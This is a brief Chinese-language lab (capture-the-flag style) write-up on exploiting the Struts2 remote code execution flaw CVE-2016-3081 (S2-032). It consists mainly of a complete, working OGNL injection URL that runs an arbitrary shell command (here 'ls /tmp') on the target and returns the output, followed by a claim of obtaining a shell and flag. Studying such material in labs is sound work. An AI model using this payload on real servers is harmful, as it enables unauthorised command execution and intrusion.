

Struts2 远程代码执行(CVE-2016-3081) (s2-032)

有cve，直接github找利用脚本，这里可以github找工具打，也可以找payload手工打，由于靶场环境，直接手工打。

payload：

http://123.58.236.76:35264/?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=ls%20/tmp

成功拿到shell 和flag